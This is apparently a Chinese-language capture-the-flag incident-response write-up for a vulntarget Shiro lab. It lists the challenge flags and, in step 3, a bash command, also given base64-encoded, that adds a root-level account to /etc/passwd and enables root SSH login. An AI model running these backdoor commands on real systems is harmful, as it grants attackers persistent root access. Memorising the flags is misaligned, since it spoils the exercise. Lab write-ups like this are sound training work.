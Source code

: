 # 第八章-内存马分析-Java02-Shiro

  
  
&lt;!--more--&gt;  
## 0x00 环境分析  
```  
靶机来源 @vulntarget  
靶机可以采集本地搭建或者是云端调度  
搭建链接 https://github.com/crow821/vulntarget  
    本题不提供靶机账户密码请根据nacos 获取的shirokey 攻击靶机后登录应急  
```  
## 0x01  
利用上一题获取的`shiro key`攻击后进行应急  
1、将 shiro 的 key 作为 flag 提交  
`flag{KduO0i&#43;zUIMcNNJnsZwU9Q==}`  
2、隐藏用户后删除，并将隐藏用户名作为 flag 提交  
`8088`运行着`Shiro`服务  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202406081527792.png)
`cat /etc/passwd`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202406081528896.png)
`flag{guest}`  
3、分析app.jar文件是否存在后门，并把后门路由名称作为 flag 提交  
添加一个用户利用`ssh`进行连接  
```bash  
#!/bin/bash  
  
echo &#34;system:adk6oNRwypFwA:0:0:eval_to_root:/root:/bin/bash&#34; &gt;&gt; /etc/passwd &amp;&amp; echo &#34;PermitRootLogin yes&#34; &gt;&gt; /etc/ssh/sshd_config &amp;&amp; /etc/init.d/ssh restart  
```  
`echo IyEvYmluL2Jhc2gKCmVjaG8gInN5c3RlbTphZGs2b05Sd3lwRndBOjA6MDpldmFsX3RvX3Jvb3Q6L3Jvb3Q6L2Jpbi9iYXNoIiA&#43;PiAvZXRjL3Bhc3N3ZCAmJiBlY2hvICJQZXJtaXRSb290TG9naW4geWVzIiA&#43;PiAvZXRjL3NzaC9zc2hkX2NvbmZpZyAmJiAvZXRjL2luaXQuZC9zc2ggcmVzdGFydA==|base64 -d &gt; /tmp/ssh.sh`  
连接`ssh system/admin123`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202406081755054.png)
`flag{/exec}`  
4、分析app.jar文件，将后门的密码作为 flag 提交  
`flag{cmd}`  

---

> Author: N1Rvana  
> URL: https://nlrvana.github.io/%E7%AC%AC%E5%85%AB%E7%AB%A0-%E5%86%85%E5%AD%98%E9%A9%AC%E5%88%86%E6%9E%90-java02-shiro/  

